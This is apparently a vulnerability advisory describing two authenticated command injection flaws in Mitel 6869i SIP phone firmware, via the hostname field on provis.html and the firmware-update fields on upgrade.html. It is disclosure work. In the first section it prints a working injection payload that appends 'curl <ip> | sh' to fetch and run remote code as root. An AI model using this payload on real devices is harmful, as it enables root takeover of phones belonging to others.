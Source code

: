 # Mitel 6869i  4.5.0.41, 5.0.0.1018
Multiple firmware version (4.5.0.41, 5.0.0.1018) of the Mitel 6869i SIP Phone were found to be vulnerable to a authenticated remote command execution (command injection) vulnerability. The web application hosted by the device, fails to properly sanitize user supplied Input resulting in the ability to execute arbitrary commands.

## Authenticated Remote Command Execution (provis)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41, 5.0.0.1018, and earlier fail to properly sanitize user supplied input. The 'Network Settings' (`provis.html`) page does not perform sanitization the ``hostname`` parameter prior to writing the contents to the local configuration file ``/nvdata/etc/local.cfg``.

On devices boot, it is assumed that the ``/nvdata/etc/local.cfg``, or another configuration file containing the modified hostname parameter Is used as apart of a shell script.

By submitting a specially crafted HTTP POST request to the ``/provis.html`` endpoint containing certain characters, arbitrary commands under the user context of root can be executed.

During the boot process, the ``hostname`` parameter is eventually read into a shell script without sanitization, resulting in code execution. For the device to be functional during and after execution, the original `'udhcpc'` command must be set to its original state with any trailing data being nullified.

Using the payload ``QWERTY -t 302400 -T 6 -b -a -i eth0 -s /usr/share/udhcpc/default.script -p /var/run/udhcpc.eth.pid; curl <ip> | sh #`` In the ``hostname`` parameter, the original ``udhcpc`` command is completed, allowing any additional commands to succeed.

A full demonstration against the Mitel 6869i SIP Phone 4.5.0.41 can be viewed on YouTube, at https://www.youtube.com/watch?v=I9TQqfP5qzM.

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828

**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909

## Authenticated Remote Command Execution (firmware)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41 fails to properly sanitize user supplied input. The 'Manual Firmware Update' (`upgrade.html`) page does not perform sanitization the `username` and `path` parameter prior to appending the flags to the busybox `ftpget` command. 

![source](images/01.png)

By sending a specially crafted HTTP POST request containing command substitution syntax (`$()`) to the endpoint `upgrade.html` arbitrary commands can be executed.  

![source](images/02.png)

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909